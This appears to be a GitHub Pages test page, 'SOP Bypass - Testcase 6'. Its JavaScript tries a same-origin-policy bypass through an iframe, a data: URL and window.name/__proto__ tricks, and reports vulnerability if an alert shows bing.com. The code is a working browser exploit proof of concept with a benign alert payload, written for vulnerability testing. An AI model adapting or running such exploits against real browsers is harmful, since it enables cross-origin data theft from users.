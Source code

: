 ```yaml
---
layout: default
title: SOP Bypass - Testcase 6
permalink: /sop/new/6
---
```


# SOP Bypass - Testcase 6

<input type="button" id="btn_test" class="test" value="Run Test Case" onclick="sop()">
<script>
function sop() {
    frame = document.body.appendChild(document.createElement("iframe"));
    frame.src = "https://web.archive.org/web/20180831120255/http://www.bing.com";
    frame.onload = function() {
        frame.onload = null;
        frame.contentWindow[0].location = "data:text/html,<script>" + function() {
            window.name = "__proto__";
            parent.__proto__.alert.constructor("alert(document.domain)")();
        } + ")()</script>";
    }
}
</script>

**Note:**
If page displays an alert box displaying bing.com, your browser is vulnerable to SOP bypass.
